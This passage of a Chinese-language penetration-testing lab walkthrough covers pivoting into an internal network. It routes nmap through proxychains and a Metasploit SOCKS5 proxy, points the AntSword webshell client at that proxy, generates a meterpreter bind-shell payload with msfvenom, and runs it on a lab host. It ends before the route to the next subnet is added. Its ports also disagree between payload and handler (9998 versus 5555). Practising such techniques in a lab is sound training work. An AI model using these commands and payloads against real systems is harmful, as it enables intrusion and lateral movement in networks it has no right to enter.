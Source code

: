 **新开一个终端**，配置 proxychains 代理工具

```bash
vim /etc/proxychains4.conf
#在最结尾处把socks4的代理注释掉，添加下面这一行
socks5 127.0.0.1 1080#这里和msf里的sock是代理端口一样，默认是1080
```

利用proxychains即可完成内网穿透

```bash
proxychains nmap -sT -Pn -p- -n -T4 192.168.22.22#因为ping不走代理所以要禁ping -Pn
```

**中国蚁剑设置代理**

> 选择代理设置
>
> 手动设置代理
>
> 代理协议选择socks5
>
> 代理服务器为攻击机IP（也就是msf所在的IP）
>
> 端口是msf的socks的端口（1080）

### 三、双层代理（获得33网段的代理）

<img src="C:\Users\86135\AppData\Roaming\Typora\typora-user-images\image-20230105172941597.png" alt="image-20230105172941597" style="zoom: 50%;" />

#### 用`msfvenum`生成一个`正向`连接的shell

```bash
msfvenom -p linux/x64/meterpreter/bind_tcp lport=9998 -f elf > 2.elf
#这个lport是靶机上开放的等待连接的端口
```

将木马上传到`target2`上

```bash
chmod 777 2.elf
./2.elf
```

在msf上创建正向的监听器

```msf
msfconsole -q
use exploit/multi/handler
set payload linux/x64/meterpreter/bind_tcp
set rhost 192.168.22.22
set lport 5555
run
```

#### 添加路由

反弹回`Target2`的`meterpreter shell`之后，添加到`33`网段的路由：
